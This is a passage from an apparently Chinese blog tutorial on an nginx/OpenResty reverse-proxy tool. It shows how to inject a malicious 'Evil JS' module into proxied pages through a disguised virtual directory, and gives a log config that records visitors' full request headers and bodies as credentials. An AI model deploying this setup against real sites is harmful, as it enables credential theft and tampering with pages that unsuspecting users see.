 在修改网页内容之前，需要通过`header_filter_by_lua_block`将`Content-Length`进行清空，因为修改后，`Content-Length`的大小一定是改变的。


### 使用ES6+标准将JS模块化

```html
<script src='/7276df76835ed2272cc0e59f55e49902/static.js' type='module'></script>
```

其中`static.js`就是引入的Evil JS，添加了`type='module'`是为了启用[ES6+](https://www.freecodecamp.org/news/learn-modern-javascript/)标准。

![2021-02-16-17-10-54](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/8e4954b7fb5035a91688a21d78633140.png)


为了不和源站的目录冲突，`7276df76835ed2272cc0e59f55e49902`其实是一个虚拟的目录，通过`location`映射即可。

```
location ^~ /7276df76835ed2272cc0e59f55e49902/ {
                alias    /tmp/pricking/static/;
}
```

关于Import的说明可以看[这篇文章](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Statements/import)。

使用模块化功能可以让这个项目吸收更多关于浏览器丰富的操作，就像XSS平台那样。

## 0x04 记录日志或凭证

由于`log_by_lua_block`是最后一个流程，可以把一些数据进行收集，写入日志文件。

```
...

http {
    ....
    log_format  logeverything  '$current_time - $remote_addr \n$request_headers \n\n$request_body\n';
  
    server {
            set $request_headers "";
            set $current_time "";
           ....

            location / {
                ...
                log_by_lua_block {
                    ngx.var.current_time = ngx.localtime()                  
                    ngx.var.request_headers = ngx.req.raw_header()
                }
        }
        access_log /tmp/pricking/access.log logeverything;
    }
}
```
